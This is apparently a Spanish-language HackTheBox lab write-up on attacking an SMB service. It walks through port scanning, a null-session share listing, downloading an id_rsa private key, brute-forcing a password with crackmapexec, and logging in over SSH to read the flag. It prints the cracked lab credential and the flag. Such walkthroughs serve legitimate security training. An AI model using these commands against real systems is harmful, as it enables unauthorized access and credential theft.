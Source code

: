 # Laboratorio SMB 📟

Como primer punto tenemos que **enumerar** los puertos disponibles en la máquina objetivo

```bash
nmap -p- -sS -Pn -n <IP> -oN ports
```

**Output**

<p align="center">
    <img src="./assets/SMB/01-Ports.PNG">
</p>

---

Usaremos **`smbmap`** para listar posibles directorios que existan en este servicio

* `smbmap -H [IP]`

<p align="center">
    <img src="./assets/SMB/02-Smbmap.PNG">
</p>

* Podemos acceder al directorio **`GGJ`**

---

Accedemos a este directorio y descargamos el archivo que se aloja

* `smbclient \\\\[IP]\\GGJ -N`
    * **`-N`** Usamos una **NULL SESSION** ya que no contamos con credenciales.

<p align="center">
    <img src="./assets/SMB/03-Content.PNG">
</p>

* Nos descargamos la **llave id_rsa** usando `get id_rsa`

---

Para hacer **fuerza bruta** al servicio **SMB** usaremos la lista que nos da `HackTheBox` y `crackmapexec`

* `crackmapexec smb -u "jason" -p passwords.txt --local-auth`
    * `--local-auth` Utilizamos **autenticación local** y no de **dominio**
```
SMB         10.129.2.165    445    ATTCSVC-LINUX    [+] ATTCSVC-LINUX\jason:34c8zuNBo91!@28Bszh
```

---

Accedemos al servicio `ssh` con la clave **id_rsa** obtenida anteriormente. (⚠ Tenemos que asignarle el permiso **600**), con el usuario `jason`

* `ssh jason@[IP] -i id_rsa`

Ahora leemos la **flag** 🏴

```
$ cat flag.txt
HTB{SMB_4TT4CKS_2349872359}
```
